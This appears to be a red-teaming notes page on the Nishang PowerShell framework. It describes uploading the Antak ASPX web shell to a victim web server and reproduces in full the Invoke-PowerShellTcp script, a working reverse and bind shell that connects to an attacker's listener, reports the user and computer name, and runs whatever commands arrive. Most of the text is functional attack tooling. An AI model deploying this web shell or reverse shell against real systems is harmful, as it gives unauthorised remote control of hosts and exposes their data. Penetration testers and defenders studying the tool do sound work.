

# Nishang 

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

## Installation

Download from github repo: [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang).

```bash
sudo apt install nishang
```


## Antak Webshell

Antak is a webshell written in ASP.Net which utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server. Active Server Page Extended (ASPX) is a file type/extension written for Microsoft's ASP.NET Framework. Antak is included within the [Nishang project](https://github.com/samratashok/nishang). 

The Antak files can be found in the `/usr/share/nishang/Antak-WebShell` directory.

When uploaded on a http server in the victim machine, Antak web shell functions like a Powershell Console. However, it will execute each command as a new process. It can also execute scripts in memory and encode commands you send.

First step, generate the file you will upload:

```shell-session
sudo cp /usr/share/nishang/Antak-WebShell/antak.aspx /path/Upload.aspx
```

Set credentials for access to the web shell. Modify `line 14`, adding a user and password.



Open the browser and upload the file to the web app. 
Open the url  //files/Upload.aspx and enter user and password.


Now that we have access, we can utilize PowerShell commands to navigate and take actions against the host.

## Invoke-PowershellTcp


```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

```
